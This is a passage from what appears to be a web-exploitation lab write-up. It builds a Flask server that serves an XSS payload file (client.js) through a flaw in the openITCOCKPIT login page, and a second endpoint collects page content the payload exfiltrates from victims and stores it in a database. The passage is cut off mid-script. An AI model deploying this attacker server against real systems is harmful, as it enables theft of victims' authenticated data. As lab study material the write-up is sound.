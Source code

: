 ![](../../03.%20Images/t7-ss20.png)

With the self signed certificate and key generated, we can refer it in the app.run function, and specify a port for the API to run on.
With the Flask server ready, we need endpoints to run.
The first endpoint will be the contents of the login page, of OpenITCockPit server to allow the XSS to load our payload.

We'll use a python decorator to set the route.
We will send the client.js file with Flask's send_file function.

The final script will look as follows:

```python
##Import neccessary functions##
from locale import locale_alias
from flask import Flask, request, send_file
from flask_cors import CORS
import db

##Define the Flask API##
app = Flask(__name__)
CORS(app)

##use a python decorator to set the route for get requests##
@app.route('/client.js', methods=['GET'])
def clientjs():
	print("[+] Sending Payload")
	##use the client.js file##
	return send_file('./client.js', attachment_filename='client.js')

##use a python decorator to set the route for post requests##
@app.route("/ingest_content", methods=['POST'])
def ingest_content():
    data = request.values.to_dict()
    url = data['url']
    content = data['content']
    print("[+] Received content post-back!")
    print("\turl: %s" % (url))
    conn = db.create_connection(r"sqlite.db")
    db.insert_content(conn, url, content)
    conn.commit()
    return ('done')

##Run the API##
if __name__ == "__main__":
```